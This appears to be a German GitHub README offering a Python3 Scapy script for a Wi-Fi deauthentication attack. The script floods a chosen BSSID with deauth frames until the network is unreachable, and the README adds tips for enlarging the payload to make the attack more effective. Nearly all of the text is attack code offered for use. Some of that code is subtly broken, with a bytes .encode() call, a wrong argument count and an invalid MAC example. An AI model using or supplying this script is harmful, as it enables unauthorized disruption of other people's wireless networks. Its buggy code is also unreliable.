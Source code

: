# Python3-Deauthentification-Attack
Python3 Programming 
Das Script greift auf das "Scapy" -Modul von Python3 zu und sendet bestimmte Packete zu einer BSSID, bis diese nicht mehr 
erreibar ist.


    Du kannst die dazugeörige Nachricht, die in Zeile 16 ist, ändern. Somit ist der Angriff effektiver.
    Hier gibt es aber auch eine bestimmte Zahl an Bytes, die die Größe der Nachricht nicht überschreiten darf.
    
    
Example (eigener Text):
        
        pkg = "ich bin eine große nachricht ahahhahahahahahahha"
        msg = pkg.encode()
    
Example (mit Modul "random"):
        
        import random #muss am anfang des Scripts eingefügt werden
        msg = random._urandom(44)
    

Script mit Modul "random":


    from scapy.all import *
    import sys,random
    from colorama import *

    init()
    if (len(sys.argv) < 3):
        print(" ")
        print(" ")
        print("[!] I need the target BSSID, COUNTER and the Size of the Message!")
        print(" ")
        print(" ")
        print("[*] Example: python deauth.py aa:1V:3C:dd:ee:ff 1000 44")
        print(" ")
        quit()
    size = sys.argv[3]
    brdmac = "aa:bb:cc:dd:ee:ff"
    pkg = random._urandom(int(size))
    msg = pkg.encode()
    packet = (RadioTap()/Dot11(addr1 = brdmac, addr2 = sys.argv[1], addr3 = sys.argv[1])/Dot11Deauth()
            /(msg))
    print(Fore.YELLOW)
    sendp(packet,count=int(sys.argv[2]))
